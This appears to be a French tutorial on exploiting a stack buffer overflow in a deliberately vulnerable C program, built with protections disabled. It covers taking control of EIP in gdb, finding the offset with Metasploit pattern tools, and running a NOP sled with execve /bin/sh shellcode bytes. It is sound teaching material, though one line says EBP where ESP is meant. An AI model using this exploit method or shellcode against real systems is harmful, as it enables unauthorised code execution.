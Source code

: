 ```c
#include <stdio.h>
#include <string.h>

void vuln(char *arg){
	char buffer[20];
	strcpy(buffer, arg);
	printf("\n Hello %s ! \n", buffer);
}  

int main(int argc, char **argv){
	vuln(argv[1]);
	return 0;
}
```

```sh
gcc -z execstack -fno-stack-protector -m32 sayHello.c -o run
```

**Take Controle of EIP**

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```sh
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

A partir des informations du registre `info registers`, verifier que nous avons bien écrasé sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

---

**Finding the offset**

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```sh
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```sh
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note offset (`size-offset`)

Donc il nous faut `size-offset` caractere suivie de notre shellcode. 
En gros tout ce qui se trouve au dela de la taille de notre offset vas etre executer en memoire dans `EBP`

En suite

```sh
(gdb) run $(python2 -c "print 'A'*{size-offset}")
```

Le programme vas planter et on verifie le registrer `ESP`

```sh
(gdb) info frame
(gdb) print $esp 
# => 0xffffcee0
```

---

**Generating Shellcode**

Il faut ecrire la valeur de ESP en envers soit `\xe0\xce\xff\xff` -> `{esp-reverse}`

ShellCode:

```sh
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Executer le programme pour obtenir un shell

```sh
./run $(python2 -c "print 'A'*{size-offset} + '{esp-reverse}' + '\x90'*40 + '{shellcode}'")
```

> __NOTE:__ Si nous avons les caracteres `1�Ph//shh/bin��PS��` il faut augmenter le nombre `NOPs`


